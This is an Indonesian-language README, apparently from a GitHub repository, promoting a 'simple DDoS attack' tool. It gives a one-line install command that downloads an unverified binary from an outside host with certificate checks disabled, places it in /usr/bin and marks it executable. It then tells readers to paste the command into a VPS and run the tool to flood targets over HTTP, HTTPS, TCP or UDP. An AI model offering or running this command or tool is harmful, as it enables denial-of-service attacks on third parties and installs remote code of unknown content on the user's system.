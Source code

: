 **DDOS ATTACK SIMPEL BY RAFANSTR**

**harus menggunakan python3**

**MODULE**
```
pip install aiohttp
```

***LINK INSTALASI***
```
apt update && apt upgrade -y && apt install gnupg -y && wget --no-check-certificate -O /usr/bin/dds http://autsc.my.id/xws ; chmod +x /usr/bin/dds
```

![RafanSTR](https://github.com/Genjerr/DDOS-TOOLS/blob/main/gambar1.png)

**1. tempel link diatas di terminal vps kalian**

**2. jalankan dengan ketik dds di terminal**

**3. minimal kecepatan koneksi vps 500mbps untuk menjalankan http/https**

**4. untuk tcp/udp bisa costum sendiri mau kecepatan berapa mbps/gbps sesuai kemampuan vps kalian**
 
